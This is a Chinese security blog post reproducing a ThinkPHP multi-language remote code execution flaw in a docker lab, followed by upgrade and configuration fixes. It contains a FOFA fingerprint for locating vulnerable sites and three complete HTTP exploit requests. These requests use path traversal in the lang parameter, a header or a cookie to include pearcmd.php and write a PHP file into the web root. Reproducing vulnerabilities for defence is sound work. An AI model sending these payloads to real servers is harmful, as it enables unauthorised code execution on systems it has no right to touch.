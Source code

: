 #  Thinkphp 多语言远程命令执行漏洞复现

原创 安全透视镜 [ 网络安全透视镜 ](javascript:void\(0\);)

**网络安全透视镜** ![]()

微信号 gh_0111d52251cf

功能介绍 安全类文章、资源分享为主，也会不定期分享一些其他IT资源。如果有什么需要的资源可以留言，万一找到了呢

____

___发表于_

收录于合集

# Thinkphp 多语言 RCE复现

## 漏洞描述：

若Thinkphp 程序开启了多语言功能，则可通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd
文件包含这个 trick 即可实现 RCE。

## 影响范围

Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x

## 利用条件：

1.多语言开启

2.安装了pear扩展

3.知道pearcmd.php路径

  1. register_argc_argv=on

## fofa指纹：

header="think_lang"

## 漏洞复现：

开启靶机环境

docker run -it -d -p 80:80  vulfocus/thinkphp:6.0.12

  

![](https://gitee.com/fuli009/images/raw/master/public/20221213144200.png)

 **Get:**

  *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/?index.php+config-create+&lang=../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/var/www/html/4.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeCookie: think_lang=zh-cnUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

(6.0未成功，5.0成功)

 **Header:**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/index.php?+config-create+/<?=phpinfo()?>+/var/www/html/1.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closethink-lang:../../../../../../../../usr/local/lib/php/pearcmdCookie: think_lang=zh-cnUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

![](https://gitee.com/fuli009/images/raw/master/public/20221213144213.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20221213144216.png)

 **Cookie:**

  *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/index.php?+config-create+/<?=phpinfo()?>+/var/www/html/3.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeCookie:think_lang=../../../../../../../../usr/local/lib/php/pearcmdUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

![](https://gitee.com/fuli009/images/raw/master/public/20221213144219.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20221213144222.png)

## 源码分析：

http://tttang.com/archive/1865/

## 修复建议：

1、若无必要，可关闭多语言功能，可参考文档

https://www.kancloud.cn/manual/thinkphp6_0/1037637

https://static.kancloud.cn/manual/thinkphp5/118132

2、官方已发布6.0.14、5.1.42，建议升级至安全版本。

https://github.com/top-
think/framework/commit/c4acb8b4001b98a0078eda25840d33e295a7f099

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

